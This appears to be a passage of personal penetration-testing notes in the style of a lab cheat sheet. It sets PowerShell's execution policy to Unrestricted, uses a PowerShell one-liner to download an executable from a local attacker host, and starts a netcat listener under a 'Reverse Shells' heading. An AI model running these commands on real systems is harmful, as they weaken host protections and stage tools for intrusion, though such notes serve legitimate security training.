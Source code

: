```
PS C:\Windows\system32> Set-ExecutionPolicy Unrestricted

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): Y

PS C:\Windows\system32> Get-ExecutionPolicy
Unrestricted
PS C:\Windows\system32>
```

#### Powershell File Transfers

```
C:\Users\sherwinowen\Desktop>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.0.223/wget.exe','C:\Users\sherwinowen\Desktop\wget.exe')"

C:\Users\sherwinowen\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 3208-00E9

 Directory of C:\Users\sherwinowen\Desktop

12/02/2020  03:05 PM    <DIR>          .
12/02/2020  03:05 PM    <DIR>          ..
12/02/2020  08:03 AM               925 HWID.log
12/02/2020  03:05 PM           308,736 wget.exe
               2 File(s)        309,661 bytes
               2 Dir(s)  40,070,180,864 bytes free

C:\Users\sherwinowen\Desktop>wget -V
GNU Wget 1.9.1

Copyright (C) 2003 Free Software Foundation, Inc.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

Originally written by Hrvoje Niksic <hniksic@xemacs.org>.
```



#### PowerShell Reverse Shells

```
kali@kali : ~$ sudo nc -lvnp 443                   
[sudo] password for kali: 
listening on [any] 443 ...
```
